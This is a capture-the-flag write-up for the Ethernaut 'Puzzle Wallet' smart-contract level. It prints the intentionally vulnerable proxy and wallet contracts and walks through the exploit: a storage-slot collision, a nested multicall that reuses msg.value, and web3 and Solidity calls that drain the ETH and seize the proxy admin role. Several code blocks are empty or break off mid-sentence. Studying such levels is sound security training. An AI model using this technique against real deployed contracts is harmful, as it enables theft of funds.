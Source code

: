 # Ethernaut 24: Puzzle Wallet

Learn how to work with more realistic code. Here we have an obvious vulnerability in storage, but to exploit it, a small chain of tasks is necessary that exploits another not so obvious vulnerability.

## The Task Intro

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, msg.value will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple delegatecalls to a function that looks safe on its own could lead to unwanted transfers of ETH, as delegatecalls keep the original msg.value sent to the contract.

Move on to the next level when you're ready!

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## The Solution

```apache

```

This level was much harder then the previous ones. The first vulnerability was clear after first sight: We have a Proxy contract and an implementation contract that do not match in Storage. Calls made on the proxy override values on the implementation and vice virca. I know that the storage is stored on the Proxy and the logic does not contain any data - if we stick to the delegatecall pattern.

It is obvious to make the me first owner of the implementation. Why is this important? Only whitelisted users can interact with the implementation. For being whitelisted I have to be the owner. The attack makes first the attacker as an owner of the implementation by calling `proposeNewAdmin(address _newAdmin)`. This sets the pendingAdmin variable, but in a delegate call an owner address is expected here, therefore I am the owner of implemntation now, when I use a delegate call, next set is to whitelist me with `addToWhitelist`

Second step of the attack is to become the admin of the proxy contract. This is not possible through the proxy, if we could set the storage slot 1 through a delegatecall to my address, I would be owner. The variable there is `maxBalance`. `MaxBalance` is set through 2 functions: 1 `init` or `setMaxBalance`. Init seems impossible to set maxBalance, because it require `maxBalance == 0`, and it is already set to a non-zero value. `setMaxBalance`seems a way to follow, but it requires that the contract has a zero eth balance, currently it has a 0.001 eth balance.

Before we can set the maxBalance, we need to drain all eth out of the contract. I can use the `execute` function for this. This requires that I have a balances[myaddress]>=than the value. So a possible attack is to artifically rise my balance but not giving that much eth to the contract.

Calling deposit multiple times does not work because it asks each time the same value of eth. But what if in the same call I could make several calls to deposit, using the same msg.value several time? Obvious candidate is the multicall function.

This function has a simple flag check in it, only allowing one call to the deposit function, which seems safe. But hey, thinking it twice, this function allows to make multiple call, why not another multicall that contains a deposit? In this case the flag test would pass again and I can manipulate the balance - a hidden vulnerability.

After this exploit, I can retrieve all eth from the contract and set maxBalance to my address. With this I am the owner of the proxy 👍. Technically I switched between solidity and web3 calls, here my implementation:

````apache
1. Get owner of the implementation
contract.abi
Array(10) [ {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…} ]
0: Object { name: "addToWhitelist", stateMutability: "nonpayable", type: "function", … }
1: Object { name: "balances", stateMutability: "view", type: "function", … }
2: Object { name: "deposit", stateMutability: "payable", type: "function", … }
3: Object { name: "execute", stateMutability: "payable", type: "function", … }
4: Object { name: "init", stateMutability: "nonpayable", type: "function", … }
5: Object { name: "maxBalance", stateMutability: "view", type: "function", … }
6: Object { name: "multicall", stateMutability: "payable", type: "function", … }
7: Object { name: "owner", stateMutability: "view", type: "function", … }
8: Object { name: "setMaxBalance", stateMutability: "nonpayable", type: "function", … }
9: Object { name: "whitelisted", stateMutability: "view", type: "function", … }
```
````

Unfortunately the method proposeNew admin is not there, I switched therefore to Remix, and with this I was the owner.

```apache
    address public proxy = 0x1;
    address public wallet = 0x1;

   function attack() public {
       bytes memory calldatas = abi.encodeWithSignature("proposeNewAdmin(address)",msg.sender);
       (bool success, ) = proxy.call(calldatas);
       if(!success){
           revert();
       }
   }
```

To be able to deposit or

After this task, I am the owner of the implementation contract but now the admin of the proxy. For this the next step is to drain all eth out of the contract with a nested multicall.

```apache
// set the deposit function selector
let depositSelector = web3.eth.abi.encodeFunctionCall(contract.abi[2], [] )

// set the multicall selector with a nested deposit call
let multicallSelector = web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector]])

// make the nested multicall
await web3.eth.sendTransaction({
    from: "myAddress",
    to: contract.address,
    data: web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector, multicallSelector]]),
    value:  web3.utils.toWei('0.001', 'ether')
})


```

After this I can exploit all eth with `execute` and finally set me as proxy admin with `setMaxBalance`.

````apache
// get the eth
await contract.execute("myAddress", web3.utils.toWei('0.002', 'ether'),[])

// setMaxBalance - interestingly no casting is necessary :-)
await contract.setMaxBalance("myAddress")
```
````

Done 🎉️. This was a difficult task, especally to see the second vulnerability and exploit it correctly with abi encoding was time consuming, but finally as always solvable.
